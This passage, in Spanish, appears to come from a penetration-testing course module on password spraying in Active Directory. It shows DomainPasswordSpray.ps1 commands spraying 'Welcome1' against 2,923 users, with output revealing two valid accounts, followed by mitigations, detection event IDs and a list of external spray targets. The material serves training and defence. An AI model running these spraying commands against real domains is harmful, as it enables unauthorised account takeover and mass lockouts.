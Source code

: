 Desde un punto de apoyo en un host Windows unido a un dominio, la herramienta [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) es altamente efectiva. Si estamos autenticados en el dominio, la herramienta generará automáticamente una lista de usuarios desde Active Directory, consultará la política de contraseñas del dominio y excluirá las cuentas de usuario que estén a un intento de bloquearse. Al igual que ejecutamos el ataque de spraying desde nuestro host Linux, también podemos proporcionar una lista de usuarios a la herramienta si estamos en un host Windows pero no autenticados en el dominio. Podríamos encontrarnos en una situación en la que el cliente quiera que realicemos pruebas desde un dispositivo Windows gestionado en su red al que podamos cargar herramientas. Podríamos estar físicamente en sus oficinas y desear probar desde una VM de Windows, o podríamos obtener un punto de apoyo inicial a través de otro ataque, autenticarnos en un host en el dominio y realizar password spraying en un intento de obtener credenciales para una cuenta que tenga más derechos en el dominio.

Hay varias opciones disponibles para nosotros con la herramienta. Dado que el host está unido a un dominio, omitiremos la flag `-UserList` y dejaremos que la herramienta genere una lista para nosotros. Proporcionaremos la flag `Password` y una sola contraseña, y luego usaremos la flag `-OutFile` para escribir nuestra salida en un archivo para su uso posterior.

### Using DomainPasswordSpray.ps1

```r
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue

[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] The smallest lockout threshold discovered in the domain is 5 login attempts.
[*] Removing disabled users from list.
[*] There are 2923 total users found.
[*] Removing users within 1 attempt of locking out from list.
[*] Created a userlist containing 2923 users gathered from the current user's domain
[*] The domain password policy observation window is set to  minutes.
[*] Setting a  minute wait in between sprays.

Confirm Password Spray
Are you sure you want to perform a password spray against 2923 accounts?
[Y] Yes  [N] No  [?] Help (default is "Y"): Y

[*] Password spraying has begun with  1  passwords
[*] This might take a while depending on the total number of users
[*] Now trying password Welcome1 against 2923 users. Current time is 2:57 PM
[*] Writing successes to spray_success
[*] SUCCESS! User:sgage Password:Welcome1
[*] SUCCESS! User:tjohnson Password:Welcome1

[*] Password spraying is complete
[*] Any passwords that were successfully sprayed have been output to spray_success
```

También podríamos utilizar Kerbrute para realizar los mismos pasos de enumeración y spraying de usuarios mostrados en la sección anterior. La herramienta está presente en el directorio `C:\Tools` si deseas trabajar con los mismos ejemplos desde el host Windows proporcionado.

---

## Mitigations

Se pueden tomar varios pasos para mitigar el riesgo de ataques de password spraying. Aunque ninguna solución única prevendrá completamente el ataque, un enfoque de defensa en profundidad hará que los ataques de password spraying sean extremadamente difíciles.

| Técnica | Descripción |
|---|---|
| `Multi-factor Authentication` | La autenticación multifactor puede reducir en gran medida el riesgo de ataques de password spraying. Existen muchos tipos de autenticación multifactor, como notificaciones push a un dispositivo móvil, una contraseña de un solo uso (OTP) rotatoria como Google Authenticator, clave RSA o confirmaciones por mensaje de texto. Aunque esto puede evitar que un atacante obtenga acceso a una cuenta, ciertas implementaciones de multifactor aún revelan si la combinación de nombre de usuario/contraseña es válida. Es posible que se pueda reutilizar esta credencial contra otros servicios o aplicaciones expuestas. Es importante implementar soluciones multifactor en todos los portales externos. |
| `Restricting Access` | A menudo es posible iniciar sesión en aplicaciones con cualquier cuenta de usuario del dominio, incluso si el usuario no necesita acceder a ella como parte de su rol. En línea con el principio de privilegio mínimo, el acceso a la aplicación debe restringirse a aquellos que lo requieran. |
| `Reducing Impact of Successful Exploitation` | Un éxito rápido es asegurar que los usuarios privilegiados tengan una cuenta separada para cualquier actividad administrativa. También se deben implementar niveles de permiso específicos de la aplicación si es posible. También se recomienda la segmentación de la red, porque si un atacante está aislado a un subred comprometida, esto puede ralentizar o detener por completo el movimiento lateral y el compromiso adicional. |
| `Password Hygiene` | Educar a los usuarios sobre la selección de contraseñas difíciles de adivinar, como frases de contraseña, puede reducir significativamente la eficacia de un ataque de password spraying. Además, usar un filtro de contraseñas para restringir palabras comunes del diccionario, nombres de meses y estaciones, y variaciones del nombre de la empresa hará que sea bastante difícil para un atacante elegir una contraseña válida para intentos de spraying. |

---

## Other Considerations

Es vital asegurarse de que la política de bloqueo de contraseñas del dominio no aumente el riesgo de ataques de denegación de servicio. Si es muy restrictiva y requiere una intervención administrativa para desbloquear cuentas manualmente, un password spray descuidado puede bloquear muchas cuentas en un corto período.

---

## Detection

Algunos indicadores de ataques de password spraying externos incluyen muchos bloqueos de cuentas en un corto período, registros de servidores o aplicaciones que muestran muchos intentos de inicio de sesión con usuarios válidos o inexistentes, o muchas solicitudes en un corto período a una aplicación o URL específica.

En el registro de seguridad del Domain Controller, muchas instancias del ID de evento [4625: An account failed to log on](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4625) en un corto período pueden indicar un ataque de password spraying. Las organizaciones deben tener reglas para correlacionar muchos fallos de inicio de sesión dentro de un intervalo de tiempo establecido para activar una alerta. Un atacante más astuto puede evitar el password spraying de SMB y en su lugar apuntar a LDAP. Las organizaciones también deben monitorear el ID de evento [4771: Kerberos pre-authentication failed](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4771), que puede indicar un intento de password spraying de LDAP. Para hacerlo, necesitarán habilitar el registro de Kerberos. Este [post](https://www.hub.trimarcsecurity.com/post/trimarc-research-detecting-password-spraying-with-security-event-auditing) detalla la investigación sobre la detección de password spraying utilizando el registro de eventos de seguridad de Windows.

Con estas mitigaciones finamente ajustadas y con el registro habilitado, una organización estará bien posicionada para detectar y defenderse de los ataques de password spraying internos y externos.

---

## External Password Spraying

Aunque fuera del alcance de este módulo, el password spraying es también una forma común en la que los atacantes intentan obtener un punto de apoyo en internet. Hemos tenido mucho éxito con este método durante las pruebas de penetración para obtener acceso a datos sensibles a través de bandejas de correo electrónico o aplicaciones web como sitios de intranet que enfrentan el exterior. Algunos objetivos comunes incluyen:

- Microsoft 0365
- Outlook Web Exchange
- Exchange Web Access
- Skype for Business
- Lync Server
- Microsoft Remote Desktop Services (RDS) Portals
- Citrix portals using AD authentication
- VDI implementations using AD authentication such as VMware Horizon
- VPN portals (Citrix, SonicWall, OpenVPN, Fortinet, etc. that use AD authentication)
- Custom web applications that use AD authentication

---

## Moving Deeper

Ahora que tenemos varios conjuntos de credenciales válidas, podemos comenzar a profundizar en el dominio realizando una enumeración con credenciales con varias herramientas. Recorreremos varias herramientas que se complementan entre sí para darnos la imagen más completa y precisa de un entorno de dominio. Con esta información, buscaremos movernos lateral y verticalmente en el dominio para eventualmente alcanzar el objetivo final de nuestra evaluación.